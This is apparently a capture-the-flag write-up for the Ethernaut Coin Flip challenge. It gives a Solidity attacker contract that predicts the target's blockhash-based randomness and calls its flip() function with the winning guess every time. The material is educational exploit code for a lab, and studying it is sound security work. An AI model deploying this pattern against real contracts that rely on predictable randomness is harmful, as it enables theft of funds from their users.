 In this challenge, you learn how to create smart contracts that interact with other deployed smart contracts through interfaces.


### Solution

First, copy the address of the original smart contract:
```
await contract.address();
```

Then, copy the original smart contract into and do some changes on it:
1. Add the interface block, which is needed to interact with the original smart contract
2. Compute the side of the coin the same way that the original smart contract will do to check our choice
3. Call the original smart contract with the guess

```
pragma solidity ^0.7.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
    uint256 public consecutiveWins = 0;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function guess(address _coinFlipAddr) external returns (uint256) {

        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue/FACTOR;
        bool side = coinFlip == 1 ? true : false;

        bool isRight = ICoinFlip(_coinFlipAddr).flip(side);
        if (isRight) {
            consecutiveWins++;
        } else {
            consecutiveWins = 0;
        }

        return consecutiveWins;

    }

}
```